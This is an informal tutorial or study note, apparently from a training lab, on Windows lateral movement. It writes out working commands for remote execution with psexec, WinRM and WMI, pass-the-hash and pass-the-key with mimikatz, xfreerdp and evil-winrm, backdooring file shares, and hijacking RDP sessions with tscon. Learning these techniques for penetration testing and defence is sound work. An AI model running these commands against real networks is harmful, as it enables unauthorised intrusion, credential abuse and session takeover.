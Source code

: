 lateral movement allow to move from one computer to an other to bypass firewll or access to some specific network .

to do movement we use Admin account there are 2 type of admin account : 
- Local Account  : can't connect to a remote machine or do network priviledge task
- Domain Account : allow to do what he wnts

# use EXE Process Remotely

to do it we need to be in the admin account .

## psexec64


we will use psexec64.exe that allow to create a pipe to cmd on the remote host .
this software is a part of sysinternal tools 

psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe

# WinRm 

allow to send powershell command to manage user. this is actiated by default . 

winrs.exe -u:{User} -p:{pass} -r:{target ip} cmd

or in powershell 

$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
Enter-PSSession -Computername TARGET -Credential $credential

# other way 

use a schedular or a service to launch remote shell is a possibility too .


# use WMI 

we can use WMI to run command on the other machine : 
## POWERSHELL : 
to use wmi with powersehll we need to create a credential object with the credential of the admin 

$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

after that we need to create a session :

$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop

and for finish we can install our command :

$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}

the command allow us to create a service, a schedular task or a msi .


# NTLM 

## PAss The Hash 

when collect some credential we will get plaintext pass or hash crackable . 
but sometimes we have a uncrackable hash, what we need to do in this case ? 

we can use the hash even if we don t have the password in clear text. 
to do that we use mimikatz to inject the hash in the challenge . 

token::revert
sekurlsa::pth /user:{user} /domain:{domain} /ntlm:{hash} /run:{cmd}

with reerdp:

xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH

or PtH:
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP

or winrm:

evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH


# Kerberos 

Kerberos generate a tocket to give auth . 
there is a TGT (Gold Ticket to allow the DC to know me) and for each service I want I ask the DC with my TGT to give me TGS for the speciic service.

by doing so if I have access to the TGT ticket I don't need the pass.

mimikatz allow to inject the ticket and export them .

this know as Pass-The-Key Attack .

with mimikatz we do by : 

privilege::debug
privilege::debug

sekurlsa::pth /user:{User} /domain:{domain} /{rc4/aes128/aes256}:{key} /run:cmd

# Abusing Privilege :

## Backdoor file 

If we have write access to network file share we can upload some sofware or some script with executable if a user click on it . 

## RDP :

if a user make a RDP connection but not close the RDP session (just close the client). we can use this session without passowrd . 

to do that we use PSExec the systool with:

PsExec64.exe -s cmd.exe

and we can check open rdp with 
query user

and open the rdp with :

tscon {session id to hack} /dest:{our session name}

